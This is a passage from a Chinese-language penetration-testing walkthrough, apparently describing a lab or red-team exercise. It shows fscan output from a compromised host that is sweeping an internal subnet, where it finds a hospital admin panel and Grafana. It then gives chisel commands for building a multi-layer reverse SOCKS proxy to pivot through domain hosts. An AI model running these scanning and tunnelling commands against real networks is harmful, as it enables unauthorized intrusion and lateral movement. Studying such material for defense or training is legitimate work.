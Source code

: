 ```plain
root@web03:/# ./fscan -h 172.30.54.179/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.54.179   is alive
(icmp) Target 172.30.54.12    is alive
[*] Icmp alive hosts len is: 2
172.30.54.179:8009 open
172.30.54.12:22 open
172.30.54.179:22 open
172.30.54.12:3000 open
172.30.54.12:5432 open
172.30.54.179:8080 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle http://172.30.54.179:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.54.12:3000  code:302 len:29     title:None 跳转url: http://172.30.54.12:3000/login
[*] WebTitle http://172.30.54.12:3000/login code:200 len:27909  title:Grafana
```

发现另一个域用户，但是这个不同于之前的网段，因此我们需要搭建多层代理。

### 多层代理搭建

我们的第一层代理是VPS作为服务端，外网靶机作为客户端来搭建的，那么我们在搭建第二层的话，以外网靶机作为服务端，然后以域用户二作为客户端，此时就实现了多层代理

```plain
VPS->外网靶机->域用户2->域用户3
```

所以接下来直接在外网靶机上搭建服务端，指令如下

```plain
./chisel server -p 7001 --reverse
```

[![](assets/1706771111-ac71cb22600ba86cb7d0904019234a8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173842-30baa0d6-be8a-1.png)

再在域用户二上搭建客户端

```plain
./chisel client 172.30.12.5:7001 R:0.0.0.0:7000:socks
```
